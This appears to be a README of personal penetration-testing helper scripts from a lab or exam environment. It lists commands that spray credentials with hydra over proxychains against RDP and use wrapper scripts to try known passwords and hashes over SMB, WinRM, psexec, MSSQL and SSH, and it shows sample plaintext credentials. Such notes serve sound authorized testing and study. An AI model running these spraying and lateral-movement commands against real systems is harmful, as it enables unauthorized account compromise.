 # Scripts

Well this is a mess, but tried to write some different scripts to try all credentials etc.


## Some examples

- Try RDP, on all IPs for one user
```
bash for_each_line.sh ~/tmp/task_relia/ips.txt  proxychains -q hydra -l jim -p Castello1!  ph1 -t 4 rdp
```

- Try "all" normal services, on all IPs for one user
Kind of doesn't work since hydra ? exits whole sequence early, WHY? Need to trap some signal or what?
```
bash ~/tmp/task_relia/scripts/for_each_line.sh ~/tmp/task_relia/ips.txt    bash ~/tmp/task_relia/scripts/ad.sh dryrun all pass ph1  michelle 'NotMyPassword0k?' relia.com 
```


## Check cred scripts

known_creds.txt format:  username <space> password
known_hashes.txt format: username <space> hashes

- Try all known creds on all IPs in file for given protocol
A bit more reasonable ad.sh
```
./more/try_all_known_creds.sh
echo ./more/try_all_known_creds.sh imap tmp_email_hosts.txt
```

- Try all auth methods (1 credential, 1 host), can be combined /w for_each_line.sh for multiple IPs and/or use try_known_creds for multiple creds.
TODO ad.sh doesn't really work since when hydra (?) fails it quits the whole script early.
```
ad.sh
ad.sh dryrun smb pass proxy 172.16.241.11 joe Flowers1 MEDTECH"
```

- Run ad.sh (above) on all known creds/hashes
TODO ad.sh doesn't really work since when hydra (?) fails it quits the whole script early.
```
try_known_creds.sh
try_known_creds.sh [<all/smb/smbexec/winrm/wmi/psexec/dcom/rdp/local-auth/mssql/ssh>] [<hash/pass>] [<proxy>] IP domain
```


## Helper scripts

- Run a command for each line in file, replacing "ph1" with said line
```
./more/for_each_line.sh ip.txt "echo here is a line: ph1"

```


## Modify files scripts

- Example: combine lines and encode for Authentication header in HTTP request
```
./more/combine_lines.sh
```

- AWK to add domain for each entry in users.txt > users_email.txt
```
./more/usernames_add_domain.sh
```
